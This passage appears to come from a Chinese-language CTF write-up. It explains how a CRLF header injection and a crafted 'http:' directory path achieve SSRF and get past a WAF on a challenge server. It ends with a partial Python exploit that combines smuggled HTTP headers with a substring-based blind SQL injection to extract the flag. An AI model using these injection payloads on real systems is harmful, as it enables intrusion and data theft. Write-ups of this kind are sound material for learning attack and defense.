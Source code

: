 明明Host当中端口已经变了，为什么还是1234呢？

![](https://imgur.com/PaYspRw.png)

经过简单的php源码调试我们可以发现:

事实上其实在发送数据前，php已经根据我们的url与对应ip和port建立好了连接

![](https://imgur.com/oFgOB8A.png)

之后再发送完整数据包

![](https://imgur.com/YyspUHt.png)

因此不论我们如何污染Host都是在原有的tcp连接上进行的通信

那我们怎么办呢？虽然能成功CRLF注入，但如何控制HOST呢？

##### 成功的SSRF 尝试:

纵观全局所有代码，我们只能看到view.php当中存在可控制的点

还记得我们之前说这个获取$type存在问题么？

![](https://imgur.com/P66R6Bx.png)

乍一看这里逻辑本来是判断后缀后，判断文件是否存在之后再读取，看着没什么问题呀？

而问题就在于这个type是取`.`后的三个字符

那么如果我们创建一个名为`http:`的文件夹

之后让file值等于`http://xxx.xxx.xxx.txt@waf`，这样看也许不明显，那如果我们看看绝对路径呢？

`/var/www/html/uploads/sessionid/http://xxx.xxx.xxx.txt@waf`

我们知道php通常会做路径标准化，`//`会被替换成`/`，那么这个路径

`/var/www/html/uploads/sessionid/http:/xxx.xxx.xxx.txt@waf`

这样也就能通过file_exists函数了

#### Exp:

结合完整攻击路径将以上步骤串联起来写出exp

```py
import io
import re
import requests

flag = ''
base_url = 'http://web.chall.bi0s.in:8000'
flag_chars = 'abcdef0123456789'
hijack_tpl = '\r\n'.join([
    'anything',                  # could be anything(including '')
    'X_pro-hacker: Pro-hacker',  # bypass waf, flask will replace underscore with dash
    'flag: bypass-waf',          # the waf only takes the first flag in HTTP header
    'flag: gimme',               # but flask puts headers with the same name into a array
    'Host: just-need-this-header',
    'Content-Type:application/x-www-form-urlencoded',
    'Token: {}',
    'Content-Length: {}',        # with Content-Length set to len(payload)
    '',                          # and 2 CRLFs marking the end of header
    '{}',                        # to control the HTTP body
])

for i in range(9):  # from the challenge description we know len(flag) == 9
    for token in flag_chars:
        with requests.Session() as s:
            sqli = f"user=a',substr((select * from flag),{i + 1},1))-- "
```